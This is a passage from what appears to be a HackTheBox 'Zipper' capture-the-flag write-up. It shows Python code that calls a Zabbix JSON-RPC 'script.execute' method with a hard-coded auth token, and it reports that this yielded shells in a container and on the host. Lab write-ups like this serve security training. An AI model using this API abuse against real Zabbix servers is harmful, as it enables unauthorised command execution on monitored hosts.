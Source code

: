 ```python
match = re.search(r'"scriptids":\["(\d+)"\]}',r.text)
if not match:
	print('[-] script id not found')
script_id = match[1]

data = {
	"jsonrpc":"2.0",
	"method":"script.execute",
	"params": {
		"scriptid":f"{script_id}",
		"hostid":"10106"
	},
	"auth":"06240f1bd5926c26e2d5ef2e8ffe214e",
	"id":"1"
}

r = requests.post(url, headers=headers, json=data, proxies=proxies, verify=False)
```

Here's the outcome if `execute_on` is set to 1:

![](../../../.gitbook/assets/htb-zipper-image-6.png)

And here's the outcome of setting it to 0.

![](../../../.gitbook/assets/htb-zipper-image-7.png)

Seems that one shell spawns in the container, and one on the actual host. I continued using the shell from the actual host.

## Privilege Escalation
